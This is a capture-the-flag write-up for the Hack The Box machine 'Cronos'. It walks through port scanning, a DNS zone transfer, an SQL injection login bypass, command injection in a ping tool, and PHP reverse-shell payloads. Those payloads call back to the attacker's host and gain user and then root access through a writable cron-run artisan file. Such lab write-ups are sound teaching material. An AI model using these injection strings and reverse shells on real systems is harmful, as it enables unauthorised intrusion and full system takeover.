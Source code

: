 # MEDIUM-CRONOS

# 1. Enumeration

## 1.1 Open Ports

I started pinging the target to check if it was a Linux or a Windows system. The Time-To-Live (ttl) was 63, which is very close to 64, so it was a Linux system. Had it been close to 128 (or 128) it would have been a Windows system. After that I conducted an Nmap scan to detect active services on the target using `-p-` to scan all ports. Given that it was a Hack The Box machine (a controlled environment), I optimized the scan for speed using the following flags: `--min-rate 5000`, `-sS` for a SYN scan, `-Pn` to skip the host discovery stage, `-n` to skip reverse DNS resolution and `-T5` for higher speed.

![image.png](MEDIUM-CRONOS/image.png)

![image.png](MEDIUM-CRONOS/image%201.png)

The scan revealed the following open ports:

- **SSH** on port 22.
- **DNS** on port 53.
- **HTTP** on port 80.

Next, I performed a more detailed scan on those ports with service version detection (`-sV`) and used the Nmap Scripting Engine (NSE) with default scripts (`-sC`). I saved the output for reference using the `-oN` flag.

![image.png](MEDIUM-CRONOS/image%202.png)

## 1.2 Web Enumeration

Then I ran `gobuster` to brute force hidden directories but I couldn´t find any files or directories. Navigating to the site I found the default apache2 page.

![image.png](MEDIUM-CRONOS/image%203.png)

![image.png](MEDIUM-CRONOS/image%204.png)

Since the scan revealed a DNS service running on the target, I used `nslookup` to verify that the target, `10.10.10.13`, was indeed the default DNS server on the network. Additionally, I queried the server to identify the domain it was associated with. The response confirmed that the target was resolving to `ns1.cronos.htb`, indicating that the target was handling DNS requests for the `cronos.htb` domain.

![image.png](MEDIUM-CRONOS/image%205.png)

After identifying the DNS server, I used `dig` to attempt a zone transfer (`AXFR`) on the `cronos.htb` domain, with the target as the DNS server (`10.10.10.13`). The zone transfer was successful and revealed some subdomains. I added those subdomains to the `/etc/hosts` file and then navigated to each of them.

![image.png](MEDIUM-CRONOS/image%206.png)

![image.png](MEDIUM-CRONOS/image%207.png)

As `cronos.htb` didn´t contain anything which seemed to be useful at first, I kept going.

![image.png](MEDIUM-CRONOS/image%208.png)

# 2. Gaining Access

Navigating to admin.cronos.htb revealed a login panel. I intercepted the login POST request using `BurpSuite` and sent it to Repeater to test for potential SQL injection vulnerabilities. After trying various payloads, I successfully bypassed the authentication using the payload `' OR '1'='1'-- -`. This SQL injection tricked the application into granting access by always evaluating the condition as true.

---

![image.png](MEDIUM-CRONOS/image%209.png)

![image.png](MEDIUM-CRONOS/image%2010.png)

![image.png](MEDIUM-CRONOS/image%2011.png)

After gaining access to the login panel, I discovered a tool that allowed me to execute ping and traceroute commands against any IP address I entered. Upon pressing the execute button, the output displayed was identical to the Linux command line output for the `ping` command. This behavior suggested the possibility of a Remote Code Execution vulnerability. To test this, I tried appending `|whoami` to the input, which successfully executed the command and returned the current user name.

![image.png](MEDIUM-CRONOS/image%2012.png)

![image.png](MEDIUM-CRONOS/image%2013.png)

Using the payload `| php -r '$sock=fsockopen("10.10.14.12",5555);exec("/bin/sh -i <&3 >&3 2>&3");'`, I established a reverse shell connection to my command line. This allowed me to execute commands on the target machine and retrieve the user flag.

![image.png](MEDIUM-CRONOS/image%2014.png)

![image.png](MEDIUM-CRONOS/image%2015.png)

# 3. Privilege Escalation

I tried checking if I had any sudo permissions but I needed the password to do so. So I decided to start a HTTP server with Python and serve `pspy64` to run it on the target and find some possible services running in the background. After some time `/bin/sh -c php /var/www/laravel/artisan` was run  as root so I checked if I had write permissions on it and I did. 

I attempted to check for any sudo permissions but found that I needed the password to do so. After that I started a HTTP server using Python to serve the `pspy64` tool, and ran it to identify processes running in the background without needing elevated privileges. After some time, I noticed that the command `/bin/sh -c php /var/www/laravel/artisan` was executed as root. I then checked for write permissions on this file and confirmed that I had the ability to modify it.

![image.png](MEDIUM-CRONOS/image%2016.png)

![image.png](MEDIUM-CRONOS/image%2017.png)

![image.png](MEDIUM-CRONOS/image%2018.png)

![image.png](MEDIUM-CRONOS/image%2019.png)

Using `echo -e '#!/usr/bin/env php\n<?php\n$sock = fsockopen("10.10.14.12", 5555);\nexec("/bin/sh -i <&3 >&3 2>&3");' > artisan` I generated a new `artisan` file containing the PHP reverse shell code. After some time, this file was executed again as root. As a result, I gained root permissions and was able to retrieve the root flag.

![image.png](MEDIUM-CRONOS/image%2020.png)

![image.png](MEDIUM-CRONOS/image%2021.png)